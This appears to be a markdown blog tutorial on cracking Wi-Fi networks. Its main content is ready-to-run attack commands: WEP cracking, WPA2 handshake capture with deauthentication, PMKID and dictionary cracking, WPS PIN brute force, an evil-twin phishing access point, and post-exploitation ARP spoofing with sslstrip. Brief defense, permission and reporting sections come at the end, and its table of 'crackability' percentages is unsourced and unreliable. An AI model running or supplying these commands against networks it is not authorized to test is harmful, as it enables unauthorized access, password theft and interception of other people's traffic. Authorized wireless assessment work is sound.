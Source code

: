 ```yaml
---
title: 'WiFi Cracking'
description: 'How to  broke into wifi network and some usefull tips'
pubDate: 'June 12 2025'
heroImage: '../../../assets/wifi.png'
---
```


## **1. Understanding Wi-Fi Security Protocols**
### **Protocol Evolution & Vulnerabilities**
| Protocol | Year | Encryption | Vulnerabilities          | Crackability     |
| -------- | ---- | ---------- | ------------------------ | ---------------- |
| WEP      | 1997 | RC4        | IV Collisions, Weak Keys | 100% (Minutes)   |
| WPA      | 2003 | TKIP/RC4   | WPA-TKIP Attacks         | 95% (Hours)      |
| WPA2     | 2004 | CCMP/AES   | KRACK, PMKID             | 70% (Dictionary) |
| WPA3     | 2018 | GCMP/SAE   | Dragonblood              | 30% (Advanced)   |

**Key Insight:** Always prioritize WPA3/WPA2-Enterprise over personal PSK when possible.

## **2. Essential Tools Setup**
### **Hardware Requirements**
- **Recommended Adapters**:
	- Alfa AWUS036ACH (802.11ac)
- **Antennas**: 
	- Alfa ARS-N19 (Indoor/All-Around)
	- Alfa APA-M25 (Outdoor/Targeted)
- USB 3.0 Extension + Mount

### **Arch Preparation**
```bash
sudo pacman -Sy aircrack-ng hashcat hcxdumptool bully reaver
sudo systemctl stop NetworkManager
sudo airmon-ng check kill
```

## 3. Identify Target
### Using `airodump-ng`
```bash
sudo airodump-ng wlan0mon
```
- Look under the **"Prot"** or **"ENC"** column.
- It shows things like:
    - `WPA2` – encryption
    - `CCMP` – cipher
    - But for protocol version: check **channel width and speed** too.
- Combine with the **"HT"** / **"VHT"** / **"HE"** flags:
    - `HT` → **802.11n**
    - `VHT` → **802.11ac**
    - `HE` → **802.11ax (Wi-Fi 6)**

### Using `iw dev` and `iwlist`
```bash
iw dev wlan0 scan | grep -A 20 'SSID: TargetWiFi'
```
Look for:
- `HT capabilities:` → 802.11n
- `VHT capabilities:` → 802.11ac
- `HE capabilities:` → 802.11ax

## **4. Attack Methodology**

### **A. WEP Cracking (Obsolete but Found in Legacy Systems)**
```bash
# Step 1: Put interface in monitor mode
sudo airmon-ng start wlan0

# Step 2: Capture IVs (Packet Injection Recommended)
sudo airodump-ng -c 6 --bssid 00:11:22:33:44:55 -w capture wlan0mon

# Step 3: Crack with aircrack
aircrack-ng -b 00:11:22:33:44:55 capture-01.cap
```
**Time Estimate**: 2-15 minutes with active traffic

### **B. WPA/WPA2 PSK Attacks**

#### **1. Handshake Capture**
```bash
# Capture beacon frames
sudo airodump-ng -c 6 --bssid 00:11:22:33:44:55 -w handshake wlan0mon

# Deauth to force handshake
sudo aireplay-ng -0 5 -a 00:11:22:33:44:55 -c ClientMAC wlan0mon

# Verify handshake
aircrack-ng -J verify handshake-01.cap
```

#### **2. Dictionary Attack**
```bash
# Using aircrack
aircrack-ng -w rockyou.txt handshake-01.cap

# Using hashcat (faster)
hcxpcapngtool -o hash.hc22000 handshake-01.cap
hashcat -m 22000 hash.hc22000 rockyou.txt
```

#### **3. PMKID Attack (No Clients Needed)**
```bash
sudo hcxdumptool -i wlan0mon -o capture.pcapng --enable_status=1
hcxpcapngtool -z pmkid.hash capture.pcapng
hashcat -m 16800 pmkid.hash -a 3 ?d?d?d?d?d?d?d?d
```

### **C. WPA3 Attack Surface**
**Dragonblood Vulnerabilities**:
- SAE side-channel attacks
- Downgrade to WPA2

```bash
sudo dragonforce -i wlan0mon -b 00:11:22:33:44:55 -w wordlist.txt
```

## **5. Advanced Techniques**

### **A. Evil Twin Attacks**
```bash
# Create rogue AP
sudo airbase-ng -a 00:11:22:33:44:55 --essid "FreeWiFi" -c 6 wlan0mon

# Phishing portal integration
sudo dnsmasq -C dnsmasq.conf
sudo hostapd hostapd.conf
```

### **B. WPS PIN Attacks**
```bash
# Using reaver
reaver -i wlan0mon -b 00:11:22:33:44:55 -vv -K 1

# Using bully (faster)
bully -b 00:11:22:33:44:55 wlan0mon -p 12345670
```

## **6. Defense Strategies**

### **Enterprise Best Practices**
```bash
# RADIUS Configuration Example (FreeRADIUS)
eap {
    default_eap_type = peap
    timer_expire = 60
    ignore_unknown_eap_types = no
}
```

### **Personal Network Hardening**
```bash
# Hostapd Config Snippet
wpa=2
wpa_key_mgmt=WPA-PSK
rsn_pairwise=CCMP
wpa_passphrase=ComplexP@ssw0rd!
```

## **7. Legal Considerations**

**Always obtain written permission** before testing any network. Recommended legal clause:
```
This assessment is authorized by {Organization} from {StartDate} to {EndDate}.
Testing limited to SSIDs: {List_of_SSIDs}.
All activities logged for audit purposes.
```

## **8. Post-Exploitation**

### **Network Mapping**
```bash
nmap -Pn -sV -O 192.168.1.0/24
```

### **MITM Techniques**
```bash
sudo arpspoof -i wlan0 -t 192.168.1.100 192.168.1.1
sudo sslstrip -l 8080
```

## **9. Reporting Template**

**Findings Summary**:
```
1. WPA2-PSK Vulnerability (Critical)
   - Captured handshake in 2 minutes
   - Cracked password in 4 hours (8-char lowercase)

2. WPS Enabled (High)
   - PIN brute-forced in 6 hours

3. Rogue AP Detection (Medium)
   - No enterprise authentication observed
```

**Remediation Plan**:
1. Migrate to WPA3-Enterprise with 802.1X
2. Disable WPS immediately
3. Implement wireless intrusion detection
